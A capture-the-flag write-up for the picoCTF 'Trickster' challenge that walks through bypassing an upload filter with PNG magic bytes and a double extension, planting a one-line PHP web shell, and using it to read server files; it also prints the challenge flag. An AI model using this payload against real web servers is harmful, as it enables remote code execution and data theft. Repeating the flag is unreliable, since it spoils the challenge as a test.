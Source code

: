 ![Task desc](../assets/images/Trickster_image_1.png)

Very good challenge, where we'll exploit the `File Upload` + `RCE` (Remote Code Execution) vulnerability.

---

Let's assume that the backend of the site is on `php`, so we will insert `.php` code with a header and magic bytes `.png`.


I crafted the payload using a Python script, that writes raw bytes of [PNG signature](https://en.wikipedia.org/wiki/List_of_file_signatures) to a newly created file + php-payload for remote shell itself:

`create_payload.py`:

```python
png_header = b'\x89\x50\x4E\x47\x0D\x0A\x1A\x0A'
php_code = b"<?php system($_GET['cmd']); ?>"

with open('readme.png.php', 'wb') as f:
    f.write(png_header + php_code)
```

Contents of the newly created file:

```php
└─$ cat readme.png.php 
'PNG
▒
<?php system($_GET['cmd']); ?> 
```

Why double extension `readme.png.php`?:

When a file is uploaded to a web application, the app checks for the presence of two components:

* PNG Magic bytes: `\x89\x50\x4E\x47\x0D\x0A\x1A\x0A` 
* `.png` extension

For example if we load only `.php`:


![image_2](../assets/images/Trickster_image_2.png)


if without `.png` signature:


![image_3](../assets/images/Trickster_image_3.png)


That is, `.png` is needed to pass validation, and `.php` defines the actual file extension so that the site's backend **could execute it**.


![image_4](../assets/images/Trickster_image_4.png)


Once the file has been successfully downloaded, we need to access it from the URL.  
If you look at this site's `robots.txt`, there is `/uploads` directory. Our file could have been stored there:  


![image_5](../assets/images/Trickster_image_5.png)


To interact with the reverse shell, we need to pass `cmd` as a parameter in the URL: `...?cmd=&lt;commands to execute>`


![image_6](../assets/images/Trickster_image_6.png)

 
shell established, so let's display the contents of the entire previous directory:


```url
<URL>?cmd=cat ../*
```


or


```url
<URL>?cmd=pwd
<URL>?cmd=cat /var/www/html/*
```



![image_7](../assets/images/Trickster_image_7.png)


`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}`
